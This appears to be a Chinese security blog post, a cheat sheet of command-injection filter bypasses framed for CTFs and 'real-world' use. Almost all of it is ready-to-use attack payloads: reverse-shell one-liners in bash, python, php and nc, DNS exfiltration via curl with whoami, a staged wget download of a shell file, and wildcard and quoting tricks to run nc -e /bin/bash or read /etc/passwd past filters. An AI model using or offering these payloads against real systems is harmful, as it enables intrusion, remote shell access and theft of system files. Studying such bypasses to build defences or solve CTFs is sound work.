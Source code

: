 ```yaml
---
layout: post
title: "命令注入bypass总结（长期更新）"
subtitle: "一些各种实战奇淫技巧,CTF Trick"
date: 2018-12-20
author: otto.known
category: security
finished: true
---
```


[TOC]

```bash
sh -c "cmd"


bash -i >& /dev/tcp/ip/port 0>&1

python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"

php -r 'exec("bash -i >& /dev/tcp/ip/port 0>&1");'

php -r '$sock=fsockopen("ip",port);exec("/bin/bash -i <&3 >&3 2>&3");'

nc -e /bin/bash ip port


```

```bash
` & || | $()

%0a 换行符

%0d 回车符

;   连续指令

a=l;b=s;$a$b 局部变量

curl `whoami`xxxx.xxx  DNS管道解析
```



==Trick==
```bash
1>wget\
1>xxx.com.\
1>com\
1>-O\
1>she\
1>ll.p\
1>p
ls -t>a
sh a
```
> ls -t 是按照时间顺排序


http://2130706433   IP转10进制

http://0x7F000001   IP转16进制

> 转化网址：http://www.msxindl.com/tools/ip/ip_num.asp

## 通配符


```bash
/???/n? -e /???/b??h 127.0.0.1 6666

bin/nc -e /bin/bash 127.0.0.1 6666

/???/c?t /?t?/p??swd
```



```
*    代表『 0 个到无穷多个』任意字符
?    代表『一定有一个』任意字符
[ ]    同样代表『一定有一个在括号内』的字符(非任意字符)。例如 [abcd] 代表『一定有一个字符， 可能是 a, b, c, d 这四个任何一个』
[ - ]    若有减号在中括号内时，代表『在编码顺序内的所有字符』。例如 [0-9] 代表 0 到 9 之间的所有数字，因为数字的语系编码是连续的！
[^ ]    若中括号内的第一个字符为指数符号 (^) ，那表示『反向选择』，例如 [^abc] 代表 一定有一个字符，只要是非 a, b, c 的其他字符就接受的意思
```


## cat flag->


```bash
cat fla[a-z]


cat fl[a]g

cat f``lag

c’a’t /f’la’g

cat fl??

cat f*
cat $(echo -n "base64加密的flag" | base64-d)

cat `echo -n "base64加密的flag" | base64-d`

c\at /fl\ag

head /`ls /|grep 'fla'

a=c;b=at;c=fl;d=ag;$a$b $c$d
```


## 利用历史执行记录来bypass
```bash
root@kali$ cat
root@kali$ fl
root@kali$ ag

root@kali$ history
1.cat
2.fl
3.ag

root@kali$ !1!2!3
flag{ea3y_bypa3s_inj3ct1on}

```


==过滤空格的时候==

```bash
cat${IFS}flag

cat$IFS$9flag

<

``
```

%09 (需要php环境)



## 命令终止符


```
%00 %20
```

## 其他绕过

```bash
cat$u /etc$u/passwd$u

/?in/cat /?tc/p?sswd

/'b'i'n'/'c'a't' /'e't'c'/'p'a's's'w'd

/"b"i"n"/"w"h"i"c"h" "n"c

/b\i\n/w\h\i\c\h n\c


```

## 写文件

Windows


```
echo 48 65 6C 6C 6F 2C 57 6F 72 6C 64 21 >hex.txt
生成 hex.txt，机器码对应的内容是 Hallo World!
certutil -decodehex hex.txt bin.txt
也可以base64解码
certutil -decode hex.txt bin.txt
```

Linux

```bash
echo -e "\x61">1.txt
```


